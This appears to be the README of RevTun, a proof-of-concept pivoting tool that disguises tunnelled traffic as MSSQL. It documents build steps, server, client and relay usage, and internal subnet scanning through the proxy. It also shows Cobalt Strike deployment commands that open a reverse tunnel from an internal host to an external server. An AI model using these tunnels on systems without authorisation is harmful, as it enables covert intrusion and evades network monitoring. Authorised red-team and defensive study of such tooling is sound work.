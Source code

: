# RevTun

RevTun is a POC tool for network pivoting. It operates similar to chisel, ligolo and ssh tunneling. The main difference is that it uses the Microsoft SQL Server TDS protocol to make the network traffic look like MSSQL traffic.

It operates in 3 modes:
- **Server**: Listens on a port (1433 by default). Once it receives a client connection, it opens another port (1080 by default). Through the second port, we can use proxychains/tun2socks to forward all traffic though the client.
- **Client**: Connects to server or to the relay using authentic MSSQL authentication. Forwards all traffic from the server.
- **Relay**: Relays the traffic from the client to the server. Use case: the client cannot directly reach the server but can reach the relay machine.

## Building

### Quick Build
```powershell
.\build-multi.ps1  # Builds .NET Framework 4.8, Linux x64, Windows x64
```

### Manual Builds
```bash
# Windows x64
dotnet publish -c Release -f net8.0 -r win-x64 --self-contained true -p:PublishSingleFile=true

# Linux x64  
dotnet publish -c Release -f net8.0 -r linux-x64 --self-contained true -p:PublishSingleFile=true

# Cobalt Strike (.NET Framework 4.8)
dotnet build -c Release -f net48 -p:Platform=AnyCPU
```

## Usage

### Server
```bash
./revtun server --port 1433 --proxy-port 1080 --password test123
```

### Client 
```bash
./revtun client --host server.com --port 1433 --encrypt --password test123
```

### Relay (Traffic Forwarding)
```bash
./revtun relay --host target-server.com --port 1433 --server-port 1433 --debug
```

### Using SOCKS Proxy
```bash
curl --proxy socks5://localhost:1080 http://internal-resource.local
proxychains nmap -sT 192.168.1.0/24
```

## Cobalt Strike Integration

### Deployment
```bash
# Client from internal network  
execute-assembly revtun.exe client --host [external-ip] --port 1433 --encrypt --password test123

# Relay on pivot host
execute-assembly revtun.exe relay --host [internal-sql-server] --port 1433 
```

## Command Options
```
SERVER OPTIONS:
  --port, -p <port>          MSSQL server port (default: 1433)
  --proxy-port <port>        Proxy listener port (default: 1080)
  --bind <address>           Bind address (default: 0.0.0.0)
  --verbose, -v              Enable verbose logging
  --require-encryption       Require TLS encryption for all connections
  --no-encryption            Disable TLS encryption support

CLIENT OPTIONS:
  --host, -h <hostname>      Server hostname (default: localhost)
  --port, -p <port>          Server port (default: 1433)
  --username, -u <user>      SQL username (default: sa)
  --password <pass>          Password for authentication (REQUIRED)
  --database, -d <db>        Database name (default: master)
  --auto-exit                Exit after connection test
  --verbose, -v              Enable verbose logging
  --debug                    Enable debug output (shows all messages)
  --encrypt                  Request TLS encryption (default: enabled)
  --no-encrypt               Disable TLS encryption
  --require-encryption       Require TLS encryption (fail if not supported)

RELAY OPTIONS:
  --port, -p <port>          Relay listener port (default: 1433)
  --bind <address>           Bind address (default: 0.0.0.0)
  --host, -h <hostname>      Target server hostname (default: localhost)
  --server-port <port>       Target server port (default: 1433)
  --verbose, -v              Enable verbose logging
  --debug                    Enable debug output (shows TDS packet details)
```
